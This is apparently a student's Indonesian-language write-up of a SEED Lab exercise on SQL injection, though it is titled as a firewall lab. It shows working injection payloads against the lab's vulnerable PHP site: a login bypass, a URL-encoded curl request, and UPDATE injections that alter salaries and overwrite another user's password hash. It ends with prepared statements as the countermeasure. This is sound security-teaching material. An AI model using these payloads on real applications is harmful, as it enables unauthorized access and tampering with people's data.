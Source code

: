 ### SEEDLAB : FIREWALL by Dito Prabowo

***
#### 0x1 LAB TASK

##### Task 1 : Get Familiar with SQL Statements

1. Login ke MySQL console dengan command :

        $ mysql -u root -pseedubuntu

2. Setelah login  gunakan database Users dan show tables

        mysql> use Users;
        mysql> show tables;

![](img/1.png)

3. Kemudian tampilkan profile informasi dari Alice employee.

        Select * from credential;

![](img/2.png)

##### Task 2 : SQL Injection Attack on SELECT Statement

###### Task 2.1: SQL Injection Attack from webpage

setelah melihat code php saat login, kita melihat sql Statement untuk login. disana kita bisa memodifikasi sql Statement saat memasukan username dan password.

        $sql = "SELECT id, name, eid, salary, birth, ssn, address, email,nickname, Password FROM credential WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";

Agar kita bisa masuk dengan username admin kita bisa memodifikasi sql dengan

        admin' OR 1=1 --'

jadi pada sql Statement akan menjadi WHERE name=admin dan baris berikutnya akan menjadi komentar.

setelah itu kita bisa melihat seluruh informasi admin.

![](img/3.png)

###### Task 2.2: SQL Injection Attack from command line

Kita bisa juga melakukan sql Injection lewat command line menggunakan curl, dengan mengganti payload dengan format url seperti spasi diganti %20, single quote diganti %27. dan file login bernama unsafe_home.php, berarti kita bisa menginjection dibelakang url karena login menggunakan GET method. payload diatas diencode url dengan :

        admin%27+OR+1%3D1+--%27

payload lengkap :

        curl http://www.seedlabsqlinjection.com/unsafe_home.php?username=admin%27+OR+1%3D1+--%27

dan kita akan bisa melihat respon nya dalam terminal. Terdapat semua informasi admin dalam respon

![](img/5.png)

###### Task 2.3: Append a new SQL statement

Disini disuruh untuk Injection dengan lebih dari satu statement, dengan semicolon; setelah saya coba :

        admin' OR 1=1;UPDATE credential SET Salary=99999 WHERE ID=1; --'

hasilnya :

![](img/6.png)

Injection tidak berhasil dilakukan, karena dalam php sql statement bila ingin lebih dari 1 statement harus memakai mysqli_multi_query() jika tidak maka kita tidak bisa melakukan Injection.


##### Task 3: SQL Injection Attack on UPDATE Statement

###### Task 3.1: Modify your own salary
Pertama kita login dulu ke salah satu account

misal dengan user alice password seedalice

![](img/7.png)

Sekarang kita harus mengganti salary pada update statement. payload :

          ', salary=9999 where EID=10000; #

dan hasilnya, salary akan terganti dengan 9999

hasil :

![](img/8.png)

###### Task 3.2: Modify other people’ salary

Sama seperti task 3.1 payloadnya tinggal kita kasih where name = nama yang ingin diganti

payload =

            ', salary=1 where Name='Boby'; #

dan hasilnya :

![](img/9.png)


####### Task 3.3: Modify other people’ password

Sama Seperti 3.1 payloadnya diganti password yang sudah di hash sha1


password = dito -> sha1(dito) = a10f823742f01ccf5abd76d8b6c747ab0a8663a3

payload =

        ', Password= 'a10f823742f01ccf5abd76d8b6c747ab0a8663a3' where Name='Boby'; #


dan hasilnya :

![](img/10.png)

password sukses kita ganti



##### Task 4: Countermeasure — Prepared Statement

Kita tinggal menggunakan file safe_home.php dan safe_edit_backend.php dan kita coba lakukan Injection, dan hasilnya SQL Injection tidak bisa kita lakukan.

dengan menggunakan payload sama seperti diatas, kita tidak bisa melakukan Attack


![](img/end.png)
